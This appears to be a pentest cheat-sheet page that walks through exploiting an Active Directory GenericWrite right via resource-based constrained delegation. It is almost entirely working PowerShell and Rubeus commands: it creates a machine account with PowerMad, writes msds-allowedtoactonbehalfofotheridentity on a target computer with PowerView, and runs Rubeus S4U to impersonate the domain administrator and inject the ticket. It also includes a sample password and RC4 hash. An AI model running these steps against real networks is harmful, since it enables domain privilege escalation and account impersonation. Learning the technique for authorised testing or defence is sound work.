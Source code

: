 # PowerMad Methode - Exploiting Generic Write Right

1. Create a new machine using PowerMad

```PowerShell
New-MachineAccount -MachineAccount volkenComputer -Password $(ConvertTo-SecureString 'h4xh4x!' -AsPlainText -Force) -Domain dev.sinhack.com
[+] Machine account volkenComputer added
```

2. Give it the rights using PowerView.

```PowerShell
$sid =Get-DomainComputer -Identity volkenComputer -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"

$SDbytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDbytes,0)

Get-DomainComputer -Identity DEV02 -Domain dev.sinhack.com | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

$RBCDbytes = Get-DomainComputer DEV02 -Domain dev.sinhack.com -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity

$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0

$Descriptor.DiscretionaryAcl

# Output
BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-2032401531-514583578-4118054891-6101
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
InheritanceFlags   : None
PropagationFlags   : None
AuditFlags         : None

OPS\volkenComputer$
```

3. Confirm it's SID.

```PowerShell
ConvertFrom-SID S-1-5-21-2032401531-514583578-4118054891-6101
```

4. As Administrator run Rubeus to steal ticket.

```bash
# Hash the password to get is RC4 value.
Rubeus.exe hash /password:h4xh4x!

# Steal the ticket
Rubeus.exe s4u /user:volkenComputer$ /rc4:7D9FE135F52273BA258569D0E5B10D51 /impersonateuser:administrator /msdsspn:CIFS/dev02.dev.sinhack.com /ptt
```

5. Verifyt with klist that the ticket is successfully imported.
